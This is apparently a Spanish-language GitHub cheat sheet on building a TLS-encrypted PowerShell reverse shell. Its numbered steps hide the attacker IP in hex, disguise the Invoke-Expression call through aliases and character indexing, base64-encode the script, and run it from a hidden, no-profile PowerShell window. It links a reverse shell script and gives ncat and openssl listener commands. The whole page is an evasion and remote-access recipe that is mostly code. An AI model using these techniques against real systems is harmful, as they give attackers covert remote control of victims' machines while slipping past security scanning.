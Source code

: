 ## **TCP Reverse Shell mediante TLS en Powershell**

Todos los agradecimientos a estos dos enlaces, es puro virtuosismo lo que hay ahí, esto no es más que un copia y pega:

https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/

https://github.com/3v4Si0N/HTTP-revshell

**1.- Ofuscar la IP**

Básicamente se trata de crear los valores en hexadecimal:

```
printf "%x,%x,%x,%x\n" 192 168 11 34
c0,a8,b,22
```

```powershell
$px = "c0","a8","b","22"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```

**2.- Ofuscar la cadena IEX**

Establecemos un alias con los valores de una cadena aleatoria, extrayendo la cadena con los índices del array:

```powershell
$x = "new-exercise"
Set-alias $x  ($x[$true-4] + ($x[[byte]("0x" + "FF") - 263]) + $x[[byte]("0x" + "ba") - 193]) .'
```
Aquí otro método que he visto, pero la idea es utilizar el tuyo propio:
```powershell
[array]$shurmano = "I","n","t","E","r","n","e","X" ;
set-alias new-exercise $($shurmano | foreach { if ($_ -cmatch '[A-Z]' -eq $true) {$x += $_}}; $x)
```

**3.- Pasar el script de powershell a base64**

```
cat tlsrevshell.ps1 | iconv -f UTF8 -t UTF16LE | base64 -w 0
```

**4.- Ejecutarlo desde consola PS **

```
powershell -noP -sta -w 1 -enc ENC64SCRIPT
```

Como muestra de estás técnicas os dejo el [TCP reverse shell con TLS](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1), como listener en vuestra máquina kali podeís usar ncat u openssl:

```
ncat --allow <IP> -vnl <PORT> --ssl
```
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

